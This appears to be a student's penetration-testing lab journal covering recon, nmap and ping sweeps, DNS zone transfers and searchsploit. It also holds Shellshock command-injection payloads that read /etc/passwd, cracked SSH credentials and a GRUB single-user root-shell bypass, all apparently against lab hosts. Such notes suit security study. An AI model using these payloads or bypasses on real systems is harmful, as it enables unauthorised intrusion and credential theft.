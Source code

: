 # Journal

## 1/21/2022
#### Passive Recon
- www.boltonvalley.com
- Tools
 - `whois`
 - `nslookup`
 - theHarvester
 - [archive.org](https://archive.org)

## 1/27/2022
- setup crd on kali
- installed wireguard on kali
- `sudo apt install wireguard`
### Modification
- `sudo wg-quick up wg0`
## 1/28/2022
- ephemeral port on src device
### Host Discovery
- ping
```bash
for ip in $(seq 2 50); do ping 10.0.5.$ip -c 1 -t 20| grep "bytes from" | grep -oP "(\d+\.){3}\d+" >> sweep.txt; done
```
- fping
```bash
sudo fping -g 10.0.5.2 10.0.5.50 | grep "alive" | cut -d " " -f 1 >> sweep2.txt
```
- nmap
```bash
sudo nmap -n --open -sn 10.0.5.2-50 | grep report | cut -d " " -f 5 > sweep3.txt
```
- & to not wait for command to complete
#### Reflections
- Had trouble with running bash file - Fixed with
```bash
chmod +x
```
- Really slow until lowered ttl for pings

## 2/3/2022
### nmap
- Needs sudo to check with ICMP to see if host is open
- Checks all ports even if host is down:
```bash
sudo nmap ip -Pn
```
- Target specific ports:
```bash
sudo nmap ip -p ports
```
- Get versions of:
```bash
sudo nmap ip -sV
```
- Checks everything and tracert:
```bash
sudo nmap ip -A
```
### Port Scanning
#### Enable RDP
- Settings > System > Remote Desktop
#### Reflection
- OS and Version detection not always accurate

## 2/4/2022
### PowerShell and DNS
- use single quotes around period to escape it
```bash
Resolve-DnsName -Name $network'.'$i -DnsOnly -Server $server | Select-Object -Property Name,NameHost
```
- for loops with -gt,-lt,-eq
- Pipe to Get-Member to list properties
- Pipe to Select-Object to use those properties
## 2/10/2022
### Bash and DNS
[DNS page](dns-enumeration.md)
### Reflections
- nmap -oG for greppable output
- `
dig axfr @nameserver domain
` for zone transfer
- `
nslookup -vc
` to use TCP instead of UDP
- `
nmap -sS -sU
` to query tcp and udp ports

## 2/11/2022
### Searchsploit
- use with version name and number to get exploits
- use with -m exploit number to download
### Test
- `
nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/status,cmd="echo ; echo ; /usr/bin/whoami" 10.0.5.23
`
- `
curl -H 'User-Agent: () { :; }; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.0.5.23/cgi-bin/status
`
#### Reflections
- `
xfce4-panel -r
` to reload top bar
## 2/23/2022
### Cupcake

## 2/24/2022
### Password Guessing
[Password Cracking](password_cracking.md)
#### SSH
- peregrin.took Peregrin123
- frodo.baggins Strider2020
### Single User
- Reboot and press "e" on GNU/Linux
- add `single init=/bin/bash` to end of linux line
- remount drive `mount -rw -o remount /`
- `sync` and `umount /` before rebooting
## 3/3/2022
